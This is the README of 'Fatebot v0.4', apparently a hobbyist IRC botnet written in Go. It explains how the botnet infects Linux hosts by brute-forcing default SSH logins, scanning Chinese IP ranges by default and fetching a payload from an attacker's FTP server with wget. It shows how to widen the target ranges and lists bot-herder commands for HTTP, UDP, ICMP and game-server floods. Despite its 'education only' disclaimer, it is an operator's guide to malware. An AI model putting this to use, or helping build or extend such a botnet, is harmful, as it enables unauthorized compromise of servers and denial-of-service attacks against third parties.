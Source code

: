 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4
This is my first IRC bot for launch DDoS attack. Scan target are anything that run linux, Open default SSH port and Use default username and password. This bot is write on Go language. For education purpose only. Please test it in your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "wget" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range.(That's why it's scan and login at The same ip address.)</strong>

	my_ssh_ip = "192.168.57"
	ipGen = append(ipGen, genRange(134, 133), ".")

<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_anme = "224.12" //224.12.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
				
(2.1) In case that ip range you don't want to config your second network prefix you can skip this section.
	
	Example:
	
		var_anme = "224.12"
		var_anme = "224.20"
		
	#The ip range that's look like this it will return range of The id since 0 - 255 by default.
	

(3) Then go to The "SSH_Conn" function, And add your ip constant to The slice name "NetList".

		NetList := []string{
			ip1, ip2, ip3, ip4, ip5, ip6, ip7, ip8,
			ip9, ip10, ip11, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/howtobuild.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add some tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder input The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>
<p><strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.</p>
<p><strong>Fatebot v0.4.1</strong> = Change curl to wget add more Default IP range, Config some tutorial and assets.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range(By default.) on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
